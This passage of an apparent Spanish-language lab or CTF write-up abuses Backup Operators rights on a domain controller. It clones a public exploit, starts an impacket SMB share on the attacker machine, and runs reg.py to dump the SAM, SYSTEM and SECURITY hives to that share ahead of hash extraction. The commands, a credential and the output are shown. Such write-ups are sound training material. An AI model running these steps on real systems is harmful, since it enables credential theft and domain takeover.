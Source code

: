 Vemos que pertenecemos al grupo Backup Operators por lo que podremos aprovechar esto para poder obtener informacion utilizando un exploit de github:

Nos clonamos el repositorio a nuestra maquina atacante:

```bash
git clone https://github.com/horizon3ai/backup_dc_registry.git
```
Entramos en el directorio creado y alli tenemos el script reg.py , que es el exploit que usaremos para obtener informacion.

Pero antes por lo que vemos en las instrucciones tenemos que abrir un servidor SMB desde el host para que podamos obtener la informacion que le estamos pidiendo al DC:

```bash
mkdir smbshare
```
```bash
impacket-smbserver -smb2support 'share' ./smbshare
```

Info:
```
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```
La share esta activa y ahora ya podemos ejecutar el script

```bash
python3 reg.py zximena448:'internet'@10.0.4.18 backup -p '\\10.0.4.12\share'
```

Info:
```
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Dumping SAM hive to \\10.0.4.12\share\SAM
Dumping SYSTEM hive to \\10.0.4.12\share\SYSTEM
Dumping SECURITY hive to \\10.0.4.12\share\SECURITY
```
Vamos a comprobar que haya funcionado
```bash
ls -la smbshare
```

Info:
```
total 11324
drwxrwxr-x 2 trihack trihack     4096 Sep  7 19:42 .
drwxrwxr-x 4 trihack trihack     4096 Sep  7 19:39 ..
-rwxrwxr-x 1 trihack trihack    28672 Sep  7 19:42 SAM
-rwxrwxr-x 1 trihack trihack    32768 Sep  7 19:42 SECURITY
-rwxrwxr-x 1 trihack trihack 11526144 Sep  7 19:42 SYSTEM
```
La informacion ha sido dumpeada en la share que hemos creado, por lo que vamos a extraer los hashes de dicho archivo utilizando la herramienta impacket secretsdump.py.
